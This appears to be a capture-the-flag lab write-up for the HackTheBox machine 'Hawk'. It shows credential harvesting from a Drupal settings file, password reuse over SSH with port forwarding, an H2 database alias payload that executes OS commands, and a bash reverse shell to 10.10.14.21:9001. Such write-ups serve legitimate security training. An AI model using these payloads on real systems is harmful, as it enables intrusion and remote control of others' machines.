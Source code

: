 # Getting Root

```bash
www-data@hawk:/var/www/html$ cat sites/default/settings.php | grep -A3 -B3 password
```
      'database' => 'drupal',
      'username' => 'drupal',
      'password' => 'drupal4hawk',

![[Pasted image 20211128055455.png]]

Can use this password to login as daniel on SSH

![[Pasted image 20211128055902.png]]



Pivoting to get localhost to connect on port 8082 (only allow connection locally)
```bash
ssh -L 9002:127.0.0.1:8082 daniel@10.10.10.102
daniel@10.10.10.102's password: drupal4hawk
```
![[Pasted image 20211128071731.png]]

login as drupal database using pass: drupal4hawk

![[Pasted image 20211128074519.png]]


Payload https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('id')
```
Create a rev-shell script using the user daniel on /tmp
```bash
daniel@hawk:/tmp$ cat rev-shel.sh 
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.21/9001 0>&1
```
![[Pasted image 20211128075541.png]]

![[Pasted image 20211128075826.png]]